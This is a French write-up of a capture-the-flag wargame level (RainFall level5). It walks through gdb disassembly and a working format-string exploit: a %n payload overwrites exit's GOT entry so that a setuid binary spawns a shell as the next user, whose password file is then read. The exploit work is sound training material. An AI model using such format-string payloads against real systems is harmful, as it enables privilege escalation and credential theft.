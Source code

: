 on a un exécutable `level5` qui lit sur l'entrée standard (encore)

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

```
level5@RainFall:~$ ./level5
hey
hey
level5@RainFall:~$ ./level5 salut
hey
hey
```

après quelques check sur gdb on obtient trois fonctions

```
0x08048504 <+0>:     push   %ebp
0x08048505 <+1>:     mov    %esp,%ebp
0x08048507 <+3>:     and    $0xfffffff0,%esp
0x0804850a <+6>:     call   0x80484c2 <n>    // call n()
0x0804850f <+11>:    leave
0x08048510 <+12>:    ret
```

```
0x080484c2 <+0>:     push   %ebp
0x080484c3 <+1>:     mov    %esp,%ebp
0x080484c5 <+3>:     sub    $0x218,%esp
0x080484cb <+9>:     mov    0x8049848,%eax         // eax = stdin
0x080484d0 <+14>:    mov    %eax,0x8(%esp)         // argument 3 for fgets()
0x080484d4 <+18>:    movl   $0x200,0x4(%esp)       // argument 2 for fgets()
0x080484dc <+26>:    lea    -0x208(%ebp),%eax
0x080484e2 <+32>:    mov    %eax,(%esp)            // argument 1 for fgets()
0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>  // call fgets()
0x080484ea <+40>:    lea    -0x208(%ebp),%eax
0x080484f0 <+46>:    mov    %eax,(%esp)            // argument for printf()
0x080484f3 <+49>:    call   0x8048380 <printf@plt> // call printf()
0x080484f8 <+54>:    movl   $0x1,(%esp)            // argument for exit()
0x080484ff <+61>:    call   0x80483d0 <exit@plt>   // call exit()
```

```
0x080484a4 <+0>:     push   %ebp
0x080484a5 <+1>:     mov    %esp,%ebp
0x080484a7 <+3>:     sub    $0x18,%esp
0x080484aa <+6>:     movl   $0x80485f0,(%esp)      // argument for system()
0x080484b1 <+13>:    call   0x80483b0 <system@plt> // call system()
0x080484b6 <+18>:    movl   $0x1,(%esp)            // argument for _exit()
0x080484bd <+25>:    call   0x8048390 <_exit@plt>  // call _exit()
```

et on voit un printf vulnérable dans la fonction `n`, grace à une "format string attack" on peut l'utiliser pour appeler la fonction `o` qui lance un shell

pour cela il nous faut l'adresse de `o` :

```
(gdb) info functions
0x080484a4  o
```

et l'adresse de `exit` :

```
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
0x080483d0 <+0>:     jmp    *0x8049838
0x080483d6 <+6>:     push   $0x28
0x080483db <+11>:    jmp    0x8048370
```

on envoie l'adresse de `exit` au format little-endian pour qu'elle soit dans la stack lors de l'appel de printf

```
level5@RainFall:~$ echo -e "\x38\x98\x04\x08 %08x %08x %08x %08x %08x %08x" > /tmp/stringexploit
level5@RainFall:~$ cat /tmp/stringexploit | ./level5
8 00000200 b7fd1ac0 b7ff37d0 08049838 38302520 30252078
```

l'adresse de `exit` est en 4ème position (oui encore)

on ajoute ensuite l'adresse de `o` en decimal; 134513828 - 4 (\x38\x98\x04\x08 = 4 octets), et on utilise le spécificateur `%n` avec l'option `4$` pour que la modification s'applique sur la 4ème position :

```
level5@RainFall:~$ echo -e "\x38\x98\x04\x08%134513824x"'%4$n' > /tmp/stringexploit
```

```
level5@RainFall:~$ (cat /tmp/stringexploit ; cat) | ./level5

...

pwd
/home/user/level5
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
